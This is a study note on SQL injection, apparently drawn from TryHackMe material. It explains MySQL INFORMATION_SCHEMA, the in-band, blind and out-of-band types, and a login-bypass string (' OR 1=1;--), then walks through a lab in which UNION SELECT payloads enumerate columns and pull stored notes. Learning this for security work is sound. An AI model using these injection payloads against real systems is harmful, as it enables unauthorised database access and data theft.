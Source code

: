 ```yaml
---
description: >-
  Structured-Query Language (SQL) injection attack. SQL is standard language for
  storing, manipulating and retrieving  data in databases.
---
```


# SQL injection

## Important notes in SQL

### 1. INFORMATION\_SCHEMA&#x20;

> INFORMATION\_SCHEMA provides access to database metadata, information about the MySQL server such as the name of a database or table, the data type of a column, or access privileges.

{% embed url="https://dev.mysql.com/doc/refman/8.4/en/information-schema-table-reference.html" %}

#### INFORMATION\_SCHEMA.TABLES

A particular metadata provided by INFORMATION\_SCHEMA would be `TABLES`. This provides information about all tables and views within a database.

The `TABLES` table has these columns:

1. `TABLE_CATALOG`

The name of the catalog to which the table belongs.&#x20;

2. `TABLE_SCHEMA`

The name of the schema (database) to which the table belongs.

3. `TABLE_NAME`

The name of the table.

4. `TABLE_TYPE`

`BASE TABLE` for a table, `VIEW` for a view, or `SYSTEM VIEW` for an `INFORMATION_SCHEMA` table.

#### INFORMATION\_SCHEMA.COLUMNS

Another metadata provided would be `COLUMNS`, which table provides information about columns in tables.&#x20;

The `COLUMNS` table has these columns (only shown a few):

1. `TABLE_CATALOG`

The name of the catalog to which the table containing the column belongs.&#x20;

2. `TABLE_SCHEMA`

The name of the schema (database) to which the table containing the column belongs.

3. `TABLE_NAME`

The name of the table containing the column.

4. `COLUMN_NAME`

The name of the column.



_Information about INFORMATION\_SCHEMA.TABLES retrieved from:_

{% embed url="https://dev.mysql.com/doc/refman/8.4/en/information-schema-tables-table.html" %}

_Information about INFORMATION\_SCHEMA.COLUMNS retrieved from:_

{% embed url="https://dev.mysql.com/doc/mysql-infoschema-excerpt/8.0/en/information-schema-columns-table.html" %}

## Types of SQL injection attacks

1. In-Band SQLi

> In-Band SQL Injection is the easiest type to detect and exploit; In-Band just refers to the same method of communication being used to exploit the vulnerability and also receive the results, for example, discovering an SQL Injection vulnerability on a website page and then being able to extract data from the database to the same page.

2. Blind SQLi

> Unlike In-Band SQL injection, where we can see the results of our attack directly on the screen, blind SQLi is when we get little to no feedback to confirm whether our injected queries were, in fact, successful or not, this is because the error messages have been disabled, but the injection still works regardless.

Possible feedbacks that can help us in a blind SQLi attack:

a) Boolean response based

b) Time based

* Using the built-in `SLEEP()` method
* The `SLEEP()` method will only ever get executed upon a successful `UNION SELECT` statement.

3. Out-of-Band SQLi

> Out-of-band SQL Injection isn't as common as it either depends on specific features being enabled on the database server or the web application's business logic, which makes some kind of external network call based on the results from an SQL query.

### Example of Blind SQLi

Suppose there is a login form with input fields for username and password. The SQL query may something like this:&#x20;

`select * from users where username=<input> and password=<input> LIMIT 1;`

As long as this SQL statement resolves to a _true_ value, the login will succeed. Without proper validation, an attacker can maliciously inject SQL commands to force the query to be true without having a valid username/password pair.&#x20;

In this case, the input to the password field would look something like this:&#x20;

`' OR 1=1;--`

This input does the following:

* `'`: Escape from the password field
* `OR`: logical statement
* `1=1`: A statement that always resolves to a _true_ value
* `;`: Indicates the end of SQL query statement
* `--`: Comments out everything after



_**Knowledge taken from the following TryHackMe tutorial:**_

{% embed url="https://tryhackme.com/r/room/sqlinjectionlm" %}

## Practical challenge

_**TASK 8**_ from:&#x20;

{% embed url="https://tryhackme.com/r/room/burpsuiterepeater" %}

**Challenge Objective**

> Your objective in this challenge is to identify and exploit a Union SQL Injection vulnerability present in the ID parameter of the `/about/ID` endpoint. By leveraging this vulnerability, your task is to launch an attack to retrieve the notes about the CEO stored in the database.

1. `1'`

* To force an error:&#x20;

`Invalid statement:`&#x20;

`SELECT firstName, lastName, pfpLink, role, bio FROM people WHERE id = 1';`

The information provided in the error message tells us about the SQL query used

2. `8 UNION ALL SELECT group_concat(column_name),null,null,null,null FROM information_schema.columns WHERE table_name='people'`

* The value _**`8`**_ (or any other values that does not match an entry in the database) is used to force the first part of the query to not return any results, so as to allow us to view the results from the subsequent `UNION` statement
* Displays all the columns in the `people` table

3. `8 UNION SELECT notes,null,null,null,null from people where id=1;`

* The ID of the CEO is `1`
* This query will retrieve the content stored in the notes





{% embed url="https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet/#FindColumnsHavingGroupbyErrorBased" %}
